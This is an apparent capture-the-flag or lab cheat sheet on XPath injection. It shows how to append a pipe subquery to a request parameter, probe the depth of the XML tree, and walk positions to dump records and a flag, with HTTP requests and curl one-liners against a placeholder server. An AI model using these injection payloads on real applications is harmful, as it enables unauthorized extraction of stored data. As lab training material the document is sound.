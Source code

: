 # XPath - Advanced Data Exfiltration

When the application limits results (e.g., shows only first N matches), dump the XML by iterating: first discover schema depth, then walk positions.

## 1) Force empty original, append probing subquery

Set a term that returns no hits (e.g., `q=SOMETHINGINVALID`) and use `f=<original>|/*[1]` to probe from root.

```http
GET /index.php?q=SOMETHINGINVALID&f=fullstreetname | /*[1] HTTP/1.1
Host: <host>
```

- If the app expects a string and your subquery yields a node-set/array, output may be blank.
- Increase depth until output changes to find the data subtree depth:
  - `/*[1]` → nothing
  - `/*[1]/*[1]` → nothing
  - `/*[1]/*[1]/*[1]` → nothing
  - `/*[1]/*[1]/*[1]/*[1]` → first visible value

## 2) Walk positions at the last level

Once depth `D` is found, iterate `/*[k]` at the last step to enumerate fields/children, then move leftwards to enumerate records.

Example (depth=4):

- `/*[1]/*[1]/*[1]/*[1]` → first item field 1
- `/*[1]/*[1]/*[1]/*[2]` → first item field 2
- `/*[1]/*[1]/*[1]/*[3]` → first item field 3
- Increment the penultimate index to move to item 2, repeat.

## Curl Cheat-Sheet

```bash
# Depth probing from root (encode | as %7C)
curl "http://<SERVER_IP>:<PORT>/index.php?q=SOMETHINGINVALID&f=fullstreetname%7C/*[1]"

# Try deeper
curl "http://<SERVER_IP>:<PORT>/index.php?q=SOMETHINGINVALID&f=fullstreetname%7C/*[1]/*[1]"
curl "http://<SERVER_IP>:<PORT>/index.php?q=SOMETHINGINVALID&f=fullstreetname%7C/*[1]/*[1]/*[1]"
curl "http://<SERVER_IP>:<PORT>/index.php?q=SOMETHINGINVALID&f=fullstreetname%7C/*[1]/*[1]/*[1]/*[1]"

# Enumerate fields of the first record (last index)
curl "http://<SERVER_IP>:<PORT>/index.php?q=SOMETHINGINVALID&f=fullstreetname%7C/*[1]/*[1]/*[1]/*[1]"
curl "http://<SERVER_IP>:<PORT>/index.php?q=SOMETHINGINVALID&f=fullstreetname%7C/*[1]/*[1]/*[1]/*[2]"
curl "http://<SERVER_IP>:<PORT>/index.php?q=SOMETHINGINVALID&f=fullstreetname%7C/*[1]/*[1]/*[1]/*[3]"

# Move to the second record (increment penultimate index)
curl "http://<SERVER_IP>:<PORT>/index.php?q=SOMETHINGINVALID&f=fullstreetname%7C/*[1]/*[1]/*[2]/*[1]"
```

## Example Targeting a Different Dataset

If the second top-level child holds another dataset (e.g., users), start at `/*[1]/*[2]` and repeat depth probing:

```bash
curl "http://<SERVER_IP>:<PORT>/index.php?q=SOMETHINGINVALID&f=fullstreetname%7C/*[1]/*[2]"
curl "http://<SERVER_IP>:<PORT>/index.php?q=SOMETHINGINVALID&f=fullstreetname%7C/*[1]/*[2]/*[1]/*[1]/*[1]"
```

## Concrete lab-style locator

If the flag is at `/*[1]/*[2]/*[3]/*[1]/*[3]`:

```http
q=INVALID&f=fullstreetname|/*[1]/*[2]/*[3]/*[1]/*[3]
```

Encoded curl:

```bash
curl "http://<SERVER_IP>:<PORT>/index.php?q=INVALID&f=fullstreetname%7C/*[1]/*[2]/*[3]/*[1]/*[3]"
```

> Redact secrets/flags in notes; store them separately if needed.

